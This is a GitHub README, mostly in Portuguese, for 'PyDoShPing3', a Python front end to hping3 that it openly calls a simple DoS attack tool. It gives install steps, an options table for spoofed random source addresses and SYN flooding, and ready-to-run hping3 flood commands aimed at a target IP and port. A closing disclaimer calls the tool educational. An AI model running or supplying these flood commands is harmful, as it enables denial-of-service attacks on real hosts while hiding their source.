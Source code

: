 <h1 align="center">PyDoShPing3</h1>

<img src="https://github.com/ghostn4444/DoS-Attack/blob/main/fotor_2023-3-25_20_18_24.png" >

```
██╗  ██╗██████╗ ██╗███╗   ██╗ ██████╗ ██████╗ 
██║  ██║██╔══██╗██║████╗  ██║██╔════╝ ╚════██╗
███████║██████╔╝██║██╔██╗ ██║██║  ███╗ █████╔╝
██╔══██║██╔═══╝ ██║██║╚██╗██║██║   ██║ ╚═══██╗
██║  ██║██║     ██║██║ ╚████║╚██████╔╝██████╔╝
╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═══╝ ╚═════╝ ╚═════╝

██████╗  ██████╗ ███████╗  .--.  @Ghotsn4444
██╔══██╗██╔═══██╗██╔════╝ █|__| .-------.
██║  ██║██║   ██║███████╗ █|=.| █|.-----.|
██║  ██║██║   ██║╚════██║ █|--| █|| DoS ||
██████╔╝╚██████╔╝███████║ █|  | █|'-----'|
╚═════╝  ╚═════╝ ╚══════╝ █|__|~')_____(' 

[*] IP: 
[*] PORT:
```
# Descrição:
### Ferramenta de ataque DoS simples em python.

## Requirements
  * Python3
  * hPing3


### hping3
```bash
sudo apt install hping3
```

### Clone this repository
<code>git clone https://github.com/ghostn4444/DoS-Attack.git</code>

### Enter the directory
<code>cd PyDoShPing3</code>

### Install all modules
<code>pip3 install -r files/requirements.txt</code>

### Run the tool
<code>python3 PyDoShPing3.py</code>

## Requirements in Python
  * colorama
  * datetime
 
## Options
 
 ```bash
--rand-source   	Ocutar IP Pacote randomico
--flood 		faz o SYN flood ou o ataque DOS no host de destino.
-d  --data		tamanho dos dados
-a --spoof		dirección de origen falsa
contagem de pacotes	contagem de pacotes
-d 			tamanho dos pacotes
-S			Para enviar pacotes SYN para o endereço IP de destino
-V			verbose mode

# standard
hping3 -S --rand-source --flood -V -p "PORTS" -d 120 "IP"
 
# other modes
hping3 -c 100000 -d 10000 -S -p "PORTS" --flood --rand-source "IP" 
 ```
 
# [!] Isenção de responsabilidade

### Esta ferramenta é desenvolvida para fins educacionais. Você tem suas próprias responsabilidades e é responsável por qualquer dano ou violação de leis por esta ferramenta. O autor não é responsável por qualquer uso indevido do PyDoShPing3! 
 
### Este repositório é de código aberto para ajudar os outros. Portanto, se desejar copiar, considere dar os créditos! 
